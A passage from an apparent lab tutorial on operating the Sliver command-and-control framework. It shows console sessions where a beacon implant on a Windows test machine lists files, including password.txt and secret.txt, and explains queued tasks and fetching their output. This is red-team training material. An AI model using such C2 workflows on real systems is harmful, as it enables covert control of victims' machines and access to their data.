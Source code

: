 The `help` command here shows us **a lot** of commands we can use. We're still not in an actual shell (and if we were on a real engagement we might not ever want to enter a full shell), so we don't have access to every Windows command under the sun, but there's a lot already out there for us to do.

We can start with the most basic command: `ls`.
```shell
sliver (DIFFICULT_DYNAMO) > ls

[*] Tasked beacon DIFFICULT_DYNAMO (db8b4d25)
```

You'll notice we did not get a response immediately. This is because any commands we send are actually **tasks** that are put into a queue, and recieved everytime the beacon checks in. Just wait about a minute, and we see:

```shell
[+] DIFFICULT_DYNAMO completed task f8d51379

C:\Users\sreisz\Desktop\the-lab\sliver-test (3 items, 15.4 MiB)
===============================================================
-rw-rw-rw-  DIFFICULT_DYNAMO.exe  15.4 MiB  Sat Sep 24 21:31:53 -0700 2022
-rw-rw-rw-  password.txt          16 B      Sat Sep 24 21:47:45 -0700 2022
-rw-rw-rw-  secret.txt            37 B      Sat Sep 24 21:48:09 -0700 2022
```

If you ever forget what the result of a task was, for documentation or you just don't want to execute another command, you can use `tasks` to list the things you've done so far, and then `tasks fetch <id>` to fetch the output of a specific task.

```shell
sliver (DIFFICULT_DYNAMO) > tasks

 ID         State       Message Type   Created                         Sent                            Completed                     
========== =========== ============== =============================== =============================== ===============================
 f8d51379   completed   Ls             Sun, 25 Sep 2022 00:48:15 EDT   Sun, 25 Sep 2022 00:49:10 EDT   Sun, 25 Sep 2022 00:49:10 EDT 
 db8b4d25   completed   Ls             Sun, 25 Sep 2022 00:45:48 EDT   Sun, 25 Sep 2022 00:46:50 EDT   Sun, 25 Sep 2022 00:46:50 EDT 

sliver (DIFFICULT_DYNAMO) > tasks fetch f8

+------------------------------------------------------+
| Beacon Task   | f8d51379-b01c-4f05-8f77-8a07fcea14e3 |
+---------------+--------------------------------------+
| State         | ✅ Completed                         |
| Description   | LsReq                                |
| Created       | Sun, 25 Sep 2022 00:48:15 EDT        |
| Sent          | Sun, 25 Sep 2022 00:49:10 EDT        |
| Completed     | Sun, 25 Sep 2022 00:49:10 EDT        |
| Request Size  | 18 B                                 |
| Response Size | 180 B                                |
+------------------------------------------------------+

C:\Users\sreisz\Desktop\the-lab\sliver-test (3 items, 15.4 MiB)
===============================================================
-rw-rw-rw-  DIFFICULT_DYNAMO.exe  15.4 MiB  Sat Sep 24 21:31:53 -0700 2022
-rw-rw-rw-  password.txt          16 B      Sat Sep 24 21:47:45 -0700 2022
-rw-rw-rw-  secret.txt            37 B      Sat Sep 24 21:48:09 -0700 2022
```

